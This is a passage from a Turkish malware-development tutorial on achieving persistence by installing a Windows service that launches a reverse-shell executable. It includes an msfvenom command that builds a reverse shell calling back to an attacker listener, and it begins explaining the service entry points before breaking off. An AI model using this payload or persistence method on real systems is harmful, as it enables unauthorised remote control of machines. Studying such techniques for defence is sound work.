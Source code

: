 \newpage
\subsection{70. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 4. Windows Hizmetleri.
Basit C++ örneği.}

![pers](./images/54/2022-05-10_18-10_1.png){width="80%"}    

Bu bölüm, Windows kötü amaçlı yazılım kalıcılık teknikleri ve yöntemleri üzerine yazı dizisinin bir sonraki bölümüdür.    

Bugün, kendi araştırmalarım sonucunda keşfettiğim bir başka kalıcılık yöntemini ele alacağım: Windows Hizmetleri (Windows Services).    

### windows hizmetleri (windows services)
Windows Hizmetleri, aşağıdaki nedenlerden dolayı saldırılar için önemlidir:    
- Ağ üzerinden doğal olarak çalışırlar - tüm Hizmetler API’si uzak sunucular düşünülerek oluşturulmuştur.    
- Sistem açıldığında otomatik olarak başlarlar.    
- İşletim sisteminde son derece yüksek ayrıcalıklara sahip olabilirler.    

Hizmetleri yönetmek yüksek ayrıcalıklar gerektirir ve ayrıcalıksız bir kullanıcı genellikle yalnızca ayarları görüntüleyebilir. Bu durum yirmi yılı aşkın süredir değişmemiştir.      

Windows bağlamında, yanlış yapılandırılmış hizmetler ayrıcalık yükseltmeye yol açabilir veya bir kalıcılık yöntemi olarak kullanılabilir.    
Bu nedenle, yeni bir hizmet oluşturmak Yönetici kimlik bilgileri gerektirir ve gizli bir kalıcılık yöntemi değildir.    

### pratik örnek

Pratik bir örnek ele alalım: bizim için ters bağlantı kabuğu (reverse shell) alacak bir Windows hizmeti nasıl oluşturulur ve çalıştırılır?    

Öncelikle, saldırgan makinemde `msfvenom` kullanarak ters kabuk çalıştırılabilir dosyasını oluşturuyorum `meow.exe`:    

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
```

![pers](./images/54/2022-05-09_16-53.png){width="80%"}    

![pers](./images/54/2022-05-10_17-17.png){width="80%"}    

Ardından, hedef makinede meow.exe çalıştıracak bir hizmet oluşturun.

Bir hizmetin minimum gereksinimleri şunlardır:     
- Ana giriş noktası (Main Entry Point, herhangi bir uygulamada olduğu gibi)    
- Hizmet giriş noktası (Service Entry Point)   
- Hizmet kontrol işleyicisi (Service Control Handler)   

In the main entry point, you rapidly invoke `StartServiceCtrlDispatcher` so the `SCM` may call your Service Entry point (`ServiceMain`):

Ana giriş noktasında, `StartServiceCtrlDispatcher` işlevini hızlıca çağırarak `SCM`'nin hizmet giriş noktanızı (`ServiceMain`) çağırmasını sağlarsınız:       
